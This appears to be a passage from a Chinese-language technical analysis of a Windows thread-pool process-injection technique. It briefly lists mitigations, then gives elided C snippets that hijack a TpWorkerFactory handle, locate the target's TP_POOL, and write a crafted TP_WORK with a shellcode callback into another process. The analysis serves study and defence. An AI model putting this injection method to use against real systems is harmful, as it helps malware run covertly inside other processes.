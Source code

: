 4. **进程隔离**:
   - 使用 AppContainer 沙箱
   - 限制跨进程句柄访问

## 实现代码分析

### 核心函数

**1. 句柄劫持**

```c
HANDLE HijackWorkerFactoryHandle(HANDLE hProcess) {
    // 查询目标进程的所有句柄
    NtQueryInformationProcess(hProcess, ProcessHandleInformation, ...);

    // 遍历句柄
    for (i = 0; i < handleInfo->NumberOfHandles; i++) {
        // 复制句柄到本进程
        DuplicateHandle(hProcess, handle, GetCurrentProcess(), ...);

        // 查询对象类型
        NtQueryObject(hDuplicated, ObjectTypeInformation, ...);

        // 检查是否为 "TpWorkerFactory"
        if (TypeName == L"TpWorkerFactory") {
            return hDuplicated;
        }
    }
}
```

**2. 查询 Worker Factory**

```c
BOOL QueryWorkerFactoryInformation(HANDLE hWorkerFactory, ...) {
    NtQueryInformationWorkerFactory(
        hWorkerFactory,
        WorkerFactoryBasicInformation,
        &info,
        sizeof(info),
        NULL
    );

    // info.StartParameter 指向目标进程的 TP_POOL
    return TRUE;
}
```

**3. 创建并注入 TP_WORK**

```c
// 读取目标进程的 TP_POOL
ReadProcessMemory(hProcess, pTpPool, &targetTpPool, ...);

// 在本地创建 TP_WORK
PTP_WORK pTpWork = CreateThreadpoolWork(shellcode_callback, NULL, NULL);

// 修改 TP_WORK 结构
pFullTpWork->CleanupGroupMember.Pool = targetTpPool_address;
pFullTpWork->Task.ListEntry.Flink = &targetTpPool.TaskQueue[HIGH]->Queue;
pFullTpWork->Task.ListEntry.Blink = &targetTpPool.TaskQueue[HIGH]->Queue;
pFullTpWork->WorkState.Insertable = 1;

// 写入目标进程
VirtualAllocEx(hProcess, sizeof(FULL_TP_WORK), ...);
WriteProcessMemory(hProcess, pRemoteTpWork, pFullTpWork, ...);
```
